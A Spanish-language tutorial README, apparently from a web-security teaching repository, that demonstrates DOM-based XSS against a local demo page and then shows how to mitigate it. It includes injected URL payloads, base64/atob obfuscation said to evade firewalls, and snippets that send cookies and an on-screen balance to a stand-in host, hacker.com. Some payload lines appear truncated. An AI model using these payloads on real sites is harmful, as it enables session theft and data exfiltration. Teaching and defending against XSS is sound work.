


# XSS DOM-Based

## Levantando el cliente

Desde la carpeta raíz hacemos

```bash
cd apps/xss-dom-based/client
pnpm dev
```

## Ejemplo de ataque

Para probar la vulnerabilidad, vamos a simular un mail que nos llega con el siguiente link:

```
http://localhost:5173/index.html#
```

El código malicioso se inyecta en el DOM, pero en este caso se trata de un alert: el ataque es visible.


## Un ejemplo más realista

Si el link del mail fuera algo como ésto

```
http://localhost:5173/index.html# r.json())
    .then(data => {
      const versiones = Object.keys(data.versions);
      console.log('--- EXFILTRACIÓN DE DATOS EXITOSA ---');
      console.log('Versiones detectadas de wollok-ts:', versiones);
      alert('XSS DOM-Based: He obtenido ' + versiones.length + ' versiones de la API de NPM sin tu permiso.');
    })
">
```

o incluso algo un poco más ofuscado, difícil de detectar:

```
http://localhost:5173/index.html#r.json()).then(d=>{const v=Object.keys(d.versions);l('--- EXFILTRACIÓN ---');l(v);alert('XSS:'+v.length)})">
```



Fíjense que lo que produce es una exfiltración de datos: se obtiene información y se envía a un servidor externo controlado por el atacante. En este ejemplo es solo información pública, pero en un ataque real podría ser información sensible del usuario, como

- cookies
- tokens de sesión en localStorage
- datos de formulario en el DOM

Podríamos hacer algo como

```ts
const sessionCookie = document.cookie
// Exfiltración inmediata al servidor del hacker
fetch('https://hacker.com/steal?data=' + btoa(sessionCookie))
```

A diferencia del CSRF, el atacante roba la sesión para él ingresar desde su navegador a la app haciéndose pasar por el usuario real.

Si la cookie es marcada como `httpOnly` eso no asegura 100% que no haya exfiltración de datos. Podemos por ejemplo saber cuál es el saldo del usuario al que hackeamos, conociendo cómo está definida la estructura de la página web:

```ts
// Robando el saldo que aparece en pantalla aunque no pueda leer la cookie
const saldo = document.getElementById('saldo-total').textContent
fetch('https://hacker.com/log?saldo=' + saldo)
```

## Técnica atob

Otra técnica de ofuscación consiste en usar la función `atob` para decodificar datos codificados en base64. El mismo link anterior sería

```
http://localhost:5173/index.html#
```

con lo cual ningún firewall de aplicaciones web podría detectar el payload malicioso.

Si querés investigar más al respecto, podés estudiar en el link [Cyberchef](https://gchq.github.io/CyberChef/) y como siempre en [MDN](https://developer.mozilla.org/es/docs/Glossary/Base64).

## Cómo mitigarlo

Podemos armar una tabla de "sinks" o elementos peligrosos que puedan ser usados para inyectar código:

| Sink | Alternativa |
|------|-------------|
| `innerHTML` | `element.textContent` |
| `outerHTML` | `element.outerText` |
| `document.write()` | `element.textContent` |
| `eval()` | `Function constructor` o validación estricta de entradas |

Dado que el ejemplo es didáctico, está claro que la forma de resolverlo es borrando el `hiddenSink` y recibir los datos de forma segura:

```html
  <script type="module">
    const userNameDisplay = document.getElementById('userNameDisplay')

    const initializeVerification = () => {
      const fragmentoUrl = window.location.hash.substring(1)
      
      if (fragmentoUrl) {
        const datosUsuario = decodeURIComponent(fragmentoUrl)
        
        // MITIGACIÓN: Usamos textContent. 
        // Si datosUsuario contiene un <script> o un , 
        // se mostrará el texto literal en pantalla y NO se ejecutará nada.
        userNameDisplay.textContent = datosUsuario
      } else {
        userNameDisplay.textContent = 'Fernando'
      }
    }

    window.addEventListener('load', initializeVerification)
  </script>
```

De esa manera vemos simplemente los datos que nos pasaron sin ejecutar ningún código malicioso.



## Links

- [CSRF](../csrf-vulnerable/)
- [XSS Stored](../xss-stored/)
- [XSS Reflected](../xss-reflected/)
- [Página principal](../..)